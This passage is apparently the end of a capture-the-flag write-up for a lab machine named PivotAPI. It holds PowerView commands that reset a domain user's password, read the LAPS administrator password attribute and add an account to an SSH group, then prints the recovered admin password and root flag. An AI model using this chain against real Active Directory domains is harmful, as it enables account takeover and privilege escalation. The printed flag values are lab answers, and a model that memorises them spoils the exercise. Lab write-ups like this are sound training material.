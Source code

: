 > **first let's change `LOTHBROK` password.**

> **`$SecPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`$Cred = New-Object System.Management.Automation.PSCredential('licordebellota\GIBDEON', $SecPassword)`**

> **`$UserPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`Set-DomainUserPassword -Identity lothbrok -AccountPassword $UserPassword -Credential $Cred`**

> **now we owned `LOTHBROK` let's see what he can do.**

![](https://i.ibb.co/7GSSRSt/loth.png)

![](https://i.ibb.co/0VnJq0H/loth2.png)

![](https://i.ibb.co/0j2R3Z7/loth3.png)

> **so we can extract administrator password now, let's do it.**

> **`$SecPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`$Cred = New-Object System.Management.Automation.PSCredential('licordebellota\lothbrok', $SecPassword)`**

> **`Get-DomainObject pivotAPI -Credential $Cred -Properties "ms-mcs-AdmPwd",name`**

![](https://i.ibb.co/Wf19FRF/admin-pass.png)

> **here we go, we got the `ADMINISTRADOR` Password and it is: `3E0sIIF4XYVbk8iJApu1`**

> **let's use `GIBDEON` Privilege to add the administrator to `SSH` group.**

> **`$SecPassword = ConvertTo-SecureString 'Password123@@' -AsPlainText -Force`**

> **`$Cred = New-Object System.Management.Automation.PSCredential('licordebellota\GIBDEON', $SecPassword)`**

> **`Add-DomainGroupMember -Identity 'SSH' -Members 'GIBDEON' -Credential $Cred`**

> **`Get-DomainGroupMember -Identity 'SSH'`**

![](https://i.ibb.co/pyvNzQB/addeddtossh.png)

> **let's login now**

![](https://i.ibb.co/cbryFMZ/donnnnnnnnnnn.png)

> **let's read root flag.**


```ruby

licordebellota\administrador@PIVOTAPI C:\Users\cybervaca\Desktop>type root.txt  
b32c5e3ee389ee920f6aa1efa025048d 
licordebellota\administrador@PIVOTAPI C:\Users\cybervaca\Desktop>

```

> **and we owned every user in the machine.**

![](https://i.ibb.co/ZX8srhK/doneeeeeeeee.png)

![](https://raw.githubusercontent.com/jglovier/gifs/gh-pages/puff/mr-robot-puff.gif)

* **cheers!**




